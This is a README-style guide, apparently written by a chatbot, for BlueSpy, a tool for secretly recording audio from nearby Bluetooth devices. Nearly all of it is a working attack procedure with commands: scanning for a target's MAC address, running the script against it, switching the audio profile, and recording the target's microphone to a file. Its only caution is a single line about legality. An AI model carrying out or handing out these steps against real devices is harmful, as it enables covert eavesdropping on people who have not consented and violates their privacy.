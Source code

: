 

---

# 🔵 BlueSpy: Bluetooth Audio Surveillance Tool

**BlueSpy** is a Bluetooth hacking tool that allows you to capture audio from nearby Bluetooth devices.

---

## 📥 Git Cloning

First, clone the BlueSpy repository from GitHub:

```bash
git clone https://github.com/TarlogicSecurity/BlueSpy.git
cd BlueSpy
```

---

## 📡 Step 1: Start Bluetooth Control Interface

Launch the Bluetooth control tool:

```bash
bluetoothctl
```

Inside the `bluetoothctl` prompt:

```bash
scan on
```

- This will begin scanning for nearby Bluetooth devices.
- Identify and note the **MAC address** of your target device.

---

## 🐍 Step 2: Run BlueSpy Script

Run the BlueSpy Python script by providing the target device’s Bluetooth address:

```bash
python BlueSpy.py -a <address>
```

> 🔄 Replace `<address>` with the actual **MAC address** of your target device.

---

## 🎧 Step 3: Set Bluetooth Audio Profile

Activate the **headset-head-unit** profile for the target device:

```bash
pactl set-card-profile bluez_card.<address> headset-head-unit
```

> 🔄 Replace `<address>` with the **MAC address** of your target device.

---

## 🔴 Step 4: Record Audio Input

Start recording the audio stream from the target device:

```bash
parecord --device=bluez_input.<address> recording.wav
```

- This will capture and save the audio to a file named `recording.wav`.

---

## ⚠️ Important Notes

- Ensure your system has **Bluetooth** and **audio recording permissions** enabled.
- **pulseaudio** or **PipeWire** should be properly installed and configured for this to work smoothly.
- Always use this tool responsibly and ethically — unauthorized interception is illegal.

---

✅ That’s it!  
Let me know if you'd like to add author credits, license info, or extra tips to this `README.md` as well!